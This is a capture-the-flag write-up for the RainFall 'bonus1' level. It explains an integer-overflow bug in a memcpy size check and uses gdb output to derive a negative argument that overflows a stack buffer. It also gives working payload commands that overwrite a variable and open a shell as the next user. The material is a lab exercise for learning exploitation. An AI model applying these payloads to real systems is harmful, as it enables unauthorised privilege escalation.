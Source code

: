 <h1 align="center"> BONUS 1 </h1>

## 🔍 Analysis of Decompiled [bonus1](./source.c) 

This is a classic integer overflow vulnerability that leads to a buffer overflow. The program takes two command-line arguments:
- a number and a string, then uses the number to control how much data is copied from the string into a fixed-size buffer.


The vulnerability stems from multiple issues:

- Integer Multiplication: `num * 4` can overflow
- Signed vs Unsigned: memcpy expects size_t (unsigned), but num is signed
- The num variable is stored adjacent to `buffer[40]`

Memory Layout

```bash
(gdb) disas main
# Key instructions:
0x0804842a: sub    $0x40,%esp         ; reserves 64 bytes stack space
0x0804843d: mov    %eax,0x3c(%esp)    ; num is stored at [esp+0x3c].
0x08048464: lea    0x14(%esp),%eax    ; buffer starts at [esp+0x14]→ buffer[0]:[esp+0x3b]→ buffer[39].
0x08048468: mov    %ecx,0x8(%esp)     ; size = num * 4  (ecx * 4 stored at esp+8)
0x08048470: mov    %edx,0x4(%esp)     ; source = argv[2]
0x08048473: call   memcpy@plt         ; memcpy(dest, src, size)
0x08048478: <next instr>              ; after memcpy
0x08048478+: cmpl  $0x574f4c46,0x3c(%esp) ; compare num with 0x574F4C46

```
- buffer → `esp+0x14` (40 bytes)
- num → `esp+0x3c` (4 bytes)
- The `num < 10` check is a signed comparison, so negative num values pass the check.
- The size argument to memcpy is treated as size_t (unsigned). When you pass a signed int, it gets reinterpreted as an unsigned 32-bit value,so if we exceed the limit of the unsigned_int max we will back to 0.

## 💥 Exploit
copy 44 bytes so you overwrite 40 bytes of buffer plus the 4 bytes of num that sit immediately after it.

### Step 1: Understanding the Integer Overflow
The constraint `num < 10` seems to prevent large copies, but we can exploit integer overflow:

- memcpy expects size_t (unsigned 32-bit)
- Maximum unsigned int: `4,294,967,295`
- When we provide negative numbers, they're cast to large positive values

### Step 2: Calculating the Magic Number
Target: Copy 44 bytes (40 for buffer + 4 to overwrite num).</br>
To bypass the < 10 check while getting a useful size:
- Maximum unsigned int = `4,294,967,295`.
- `4,294,967,295` / 4 + 1 = `1,073,741,824`.
- memcpy's third arg = num * 4 (32-bit arithmetic modulo 2^32).
- (num * 4) mod 2^32 = 44 (44 decimal = 0x2C).
- 44 ÷ 4 = 11.
- num = 11 - 2^30 = 11 - 1073741824 = `-1073741813`.
- in 32-bit two’s complement `-1073741813` is `0xC000000B`.
- multiply `0xC000000B` * 4 = `0x0000002C` which is 44.
- so the magic number is = `-1,073,741,813`
### Step 3: GDB Verification
Let's verify our calculations:
```bash
(gdb) b *0x08048473  # At memcpy call
(gdb) r -1073741824 AAAAAAAAAAAA
Starting program: /home/user/bonus1/bonus1 -1073741824 AAAAAAAAAAAA

Breakpoint 1, 0x08048473 in main ()
(gdb) x/x $esp+0x8
0xbffff278:	0x00000000 #So now we have 0 as a value. 

(gdb) run -1073741813 $(python -c "print 'B'*40 + 'FLOW'")
(gdb) x/x $esp+0x8
0xbffff278: 0x0000002c  # 44 in decimal

(gdb) b *0x08048478  # After memcpy
(gdb) continue
(gdb) x/wx $esp+0x3c
0xbffff25c: 0x574f4c46  # "FLOW" in little-endian!
```
```sh
(gdb) b *0x08048478
Breakpoint 1 at 0x08048478
(gdb) run -1073741813 $(python -c "print 'B'*40 + 'FLOW'")
(gdb) p/x $esp ==> $1 = 0xbffff6b0
(gdb) x/48bx $esp+0x14
(gdb) x/wx $esp+0x3c
(gdb) p/x $esp+0x14       # buffer start
(gdb) p/x $esp+0x3c       # nb location
```
## Payload
```sh
bashbonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "B"*40 + "FLOW"')
$ whoami
bonus2
```
### alternatively

```bash
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c 'print "A"*56 + "\x82\x84\x04\x08"')
$ exit
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
$ exit
bonus1@RainFall:~$ ./bonus1 -2147483637 `python -c "print 'a' * 40 + '\x46''\x4c''\x4f''\x57'"`
$ exit
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "B"*40 + "FLOW"')
$ exit
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "B"*40 + "FLOW"')
$ exit
```



